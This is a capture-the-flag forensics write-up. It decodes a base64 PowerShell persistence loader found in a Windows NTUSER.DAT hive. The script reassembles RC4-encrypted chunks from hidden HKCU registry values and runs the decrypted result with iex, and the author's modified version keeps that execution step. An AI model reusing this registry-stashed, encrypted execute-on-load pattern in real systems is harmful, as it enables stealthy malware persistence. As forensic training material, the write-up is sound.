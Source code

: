 # FORENSICS - GOLDEN PERSISTANCE

In this challenge we are given a MS Windows registry file called NTUSER.DAT


	file NTUSER.DAT
![NTUSER.DAT: MS Windows registry file, NT/2000 or above ](images/FORENSICS-GoldenPersistance-1.png  "file NTUSER.DAT")

To take a first approach to this challenge, I thought the best idea would be to cat the file so, that's what I did.

	cat NTUSER.DAT	


If we scroll up a bit, we will be able to see what seems to be a base64 encoded Powershell command:

![base64 encoded  Powershell command](images/FORENSICS-GoldenPersistance-2.png  "cat NTUSER.DAT")

Then we can proceed to decode it. To achieve this goal, we can use the following:

	echo "base64_encoded_string" | base64 -d

![echo "base64_encoded_string" | base64 -d](images/FORENSICS-GoldenPersistance-3.png 'echo "base64_encoded_string" | base64 -d')

The output consists in a little Powershell script. Even though the format is not very good, at the last part of the script we can see that it takes some values from the MS registry file and concatenates them. Later it tries to decrypt the sequence.

```powershell
function encr {
    param(
        [Byte[]]$data,
        [Byte[]]$key
      )
 
    [Byte[]]$buffer = New-Object Byte[] $data.Length
    $data.CopyTo($buffer, 0)
    
    [Byte[]]$s = New-Object Byte[] 256;
    [Byte[]]$k = New-Object Byte[] 256;
 
    for ($i = 0; $i -lt 256; $i++)
    {
        $s[$i] = [Byte]$i;
        $k[$i] = $key[$i % $key.Length];
    }
 
    $j = 0;
    for ($i = 0; $i -lt 256; $i++)
    {
        $j = ($j + $s[$i] + $k[$i]) % 256;
        $temp = $s[$i];
        $s[$i] = $s[$j];
        $s[$j] = $temp;
    }
 
    $i = $j = 0;
    for ($x = 0; $x -lt $buffer.Length; $x++)
    {
        $i = ($i + 1) % 256;
        $j = ($j + $s[$i]) % 256;
        $temp = $s[$i];
        $s[$i] = $s[$j];
        $s[$j] = $temp;
        [int]$t = ($s[$i] + $s[$j]) % 256;
        $buffer[$x] = $buffer[$x] -bxor $s[$t];
    }
 
    return $buffer
}


function HexToBin {
    param(
    [Parameter(
        Position=0, 
        Mandatory=$true, 
        ValueFromPipeline=$true)
    ]   
    [string]$s)
    $return = @()
    
    for ($i = 0; $i -lt $s.Length ; $i += 2)
    {
        $return += [Byte]::Parse($s.Substring($i, 2), [System.Globalization.NumberStyles]::HexNumber)
    }
    
    Write-Output $return
}

[Byte[]]$key = $enc.GetBytes("Q0mmpr4B5rvZi3pS")
$encrypted1 = (Get-ItemProperty -Path HKCU:\SOFTWARE\ZYb78P4s).t3RBka5tL
$encrypted2 = (Get-ItemProperty -Path HKCU:\SOFTWARE\BjqAtIen).uLltjjW
$encrypted3 = (Get-ItemProperty -Path HKCU:\SOFTWARE\AppDataLow\t03A1Stq).uY4S39Da
$encrypted4 = (Get-ItemProperty -Path HKCU:\SOFTWARE\Google\Nv50zeG).Kb19fyhl
$encrypted5 = (Get-ItemProperty -Path HKCU:\AppEvents\Jx66ZG0O).jH54NW8C
$encrypted = "$($encrypted1)$($encrypted2)$($encrypted3)$($encrypted4)$($encrypted5)"
$enc = [System.Text.Encoding]::ASCII
[Byte[]]$data = HexToBin $encrypted
$DecryptedBytes = encr $data $key
$DecryptedString = $enc.GetString($DecryptedBytes)
$DecryptedString|iex
```

At this point, I spent some time trying to find a way to read these values. After a while, I found a tool called [Registry Explorer](https://ericzimmerman.github.io/#!index.md) from Eric Zimmerman. As this tool only works on Windows, I opened a Windows virtual machine to run it.

As we can see, once the file is opened, getting the values is pretty straight forward.

![Registry Explorer](images/FORENSICS-GoldenPersistance-4.png  "Registry Explorer")

Now we only need to modify the given script and fix a few things.
After some debugging we finally obtain the following:

```powershell
function encr {
    param([Byte[]]$data,[Byte[]]$key)

    [Byte[]]$buffer = New-Object Byte[] $data.Length
    $data.CopyTo($buffer, 0)

    [Byte[]]$s = New-Object Byte[] 256;
    [Byte[]]$k = New-Object Byte[] 256;

    for ($i = 0; $i -lt 256; $i++)
    {
        $s[$i] = [Byte]$i;
        $k[$i] = $key[$i % $key.Length];
    }

    $j = 0;
    for ($i = 0; $i -lt 256; $i++)
    {
        $j = ($j + $s[$i] + $k[$i]) % 256;
        $temp = $s[$i];
        $s[$i] = $s[$j];
        $s[$j] = $temp;
    }

    $i = $j = 0;
    for ($x = 0; $x -lt $buffer.Length; $x++)
    {
        $i = ($i + 1) % 256;
        $j = ($j + $s[$i]) % 256;
        $temp = $s[$i];
        $s[$i] = $s[$j];
        $s[$j] = $temp;
        [int]$t = ($s[$i] + $s[$j]) % 256;
        $buffer[$x] = $buffer[$x] -bxor $s[$t];
    }

    return $buffer
}


function HexToBin {
    param([Parameter(Position=0,Mandatory=$true,ValueFromPipeline=$true)][string]$s)
    $return = @()

    for ($i = 0; $i -lt $s.Length ; $i += 2)
    {
        $return += [Byte]::Parse($s.Substring($i, 2), [System.Globalization.NumberStyles]::HexNumber)
    }

    Write-Output $return
}

$encrypted1 = "F844A6035CF27CC4C90DFEAF579398BE6F7D5ED10270BD12A661DAD04191347559B82ED546015B07317000D8909939A4DA7953AED8B83C0FEE4EB6E120372F536BC5DC39"
$encrypted2 = "CC19F66A5F3B2E36C9B810FE7CC4D9CE342E8E00138A4F7F5CDD9EED9E09299DD7C6933CF4734E12A906FD9CE1CA57D445DB9CABF850529F5845083F34BA1"
$encrypted3 = "C08114AA67EB979D36DC3EFA0F62086B947F672BD8F966305A98EF93AA39076C3726B0EDEBFA10811A15F1CF1BEFC78AFC5E08AD8CACDB323F44B4D"
$encrypted4 = "D814EB4E244A153AF8FAA1121A5CCFD0FEAC8DD96A9B31CCF6C3E3E03C1E93626DF5B3E0B141467116CC08F92147F7A0BE0D95B0172A7F34922D6C236BC7DE54D8ACBFA70D1"
$encrypted5 = "84AB553E67C743BE696A0AC80C16E2B354C2AE7918EE08A0A3887875C83E44ACA7393F1C579EE41BCB7D336CAF8695266839907F47775F89C1F170562A6B0A01C0F3BC4CB"
$encrypted = "$($encrypted1)$($encrypted2)$($encrypted3)$($encrypted4)$($encrypted5)"
Write-Output $encrypted
$enc=[System.Text.Encoding]::ASCII
[Byte[]]$key = $enc.GetBytes('Q0mmpr4B5rvZi3pS')
Write-Output $key
Write-Output $key.Length
[Byte[]]$data = HexToBin  $encrypted
$DecryptedBytes= encr $data $key
$DecryptedString = $enc.GetString($DecryptedBytes)
Write-Output $DecryptedString
$DecryptedString|iex

```

Running this modified script eventually gives us the flag!

![Flag](images/FORENSICS-GoldenPersistance-5.png "Flag")
